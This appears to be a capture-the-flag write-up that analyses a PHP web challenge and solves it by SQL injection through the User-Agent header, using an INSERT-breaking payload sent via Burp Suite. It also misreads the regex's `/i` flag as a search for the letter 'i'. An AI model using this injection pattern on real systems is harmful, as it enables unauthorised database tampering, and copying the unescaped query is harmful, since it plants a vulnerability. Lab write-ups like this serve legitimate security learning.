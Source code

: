
## Analysis
The initial site is just plain html with a link to source code.

![alt text](imgs/image.png)

We can inspect this source code closer.

```PHP
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
?><html>
<head>
<title>Challenge 8</title>
<style type="text/css">
body { background:black; color:white; font-size:10pt; }
</style>
</head>
<body>
<br><br>
<center>
<?php
$agent=trim(getenv("HTTP_USER_AGENT"));
$ip=$_SERVER['REMOTE_ADDR'];
if(preg_match("/from/i",$agent)){
  echo("<br>Access Denied!<br><br>");
  echo(htmlspecialchars($agent));
  exit();
}
$db = dbconnect();
$count_ck = mysqli_fetch_array(mysqli_query($db,"select count(id) from chall8"));
if($count_ck[0] >= 70){ mysqli_query($db,"delete from chall8"); }

$result = mysqli_query($db,"select id from chall8 where agent='".addslashes($_SERVER['HTTP_USER_AGENT'])."'");
$ck = mysqli_fetch_array($result);

if($ck){
  echo "hi <b>".htmlentities($ck[0])."</b><p>";
  if($ck[0]=="admin"){
    mysqli_query($db,"delete from chall8");
    solve(8);
  }
}

if(!$ck){
  $q=mysqli_query($db,"insert into chall8(agent,ip,id) values('{$agent}','{$ip}','guest')") or die("query error");
  echo("<br><br>done!  ({$count_ck[0]}/70)");
}
?>
<a href=./?view_source=1>view-source</a>
</body>
</html>
```

The source code uses `$agent = trim(getenv("HTTP_USER_AGENT"));` to access the `HTTP_USER_AGENT` variable data from the HTTP request. It then checks if the user agent contains `from` or `i` using a regex.

After this, it connects to the database and retrieves the count of IDs.

The part that really interests us is where it looks for matching agents in the database and saves the result into an array.

```PHP
$result = mysqli_query($db, "SELECT id FROM chall8 WHERE agent='" . addslashes($_SERVER['HTTP_USER_AGENT']) . "'");
$ck = mysqli_fetch_array($result);
```
And if the first array element equals "admin", it gives us our flag.

```PHP
if($ck){
  echo "hi <b>".htmlentities($ck[0])."</b><p>";
  if($ck[0]=="admin"){
    mysqli_query($db,"delete from chall8");
    solve(8);
  }
}
```

At the end it inserts our data into database. This is really important for exploiting.

```PHP
if(!$ck){
  $q=mysqli_query($db,"insert into chall8(agent,ip,id) values('{$agent}','{$ip}','guest')") or die("query error");
  echo("<br><br>done!  ({$count_ck[0]}/70)");
}
```

## Exploit

To change the `HTTP_USER_AGENT` data used in the database, we can use Burp Suite. Start intercepting, refresh the site, and capture the request.

![alt text](imgs/image-2.png)

The SQL query used is this:
```SQL
  "insert into chall8(agent,ip,id) values('{$agent}','{$ip}','guest')"
```
We want to change it to:

```SQL
"insert into chall8(agent,ip,id) values('admin','0','admin'),('test','{$ip}','guest')"
```

Using this, we are able to save 1 more row into DB.
So our modified User-Agent will look like this:

```
User-Agent: admin','0','admin'),('test
```

Then, refresh the site again, intercept, and change our User-Agent to this:

```
User-Agent: admin
```

This way, the code will look for data where User-Agent equals admin, and that data will have an id with the value admin.

![alt text](imgs/image-1.png)

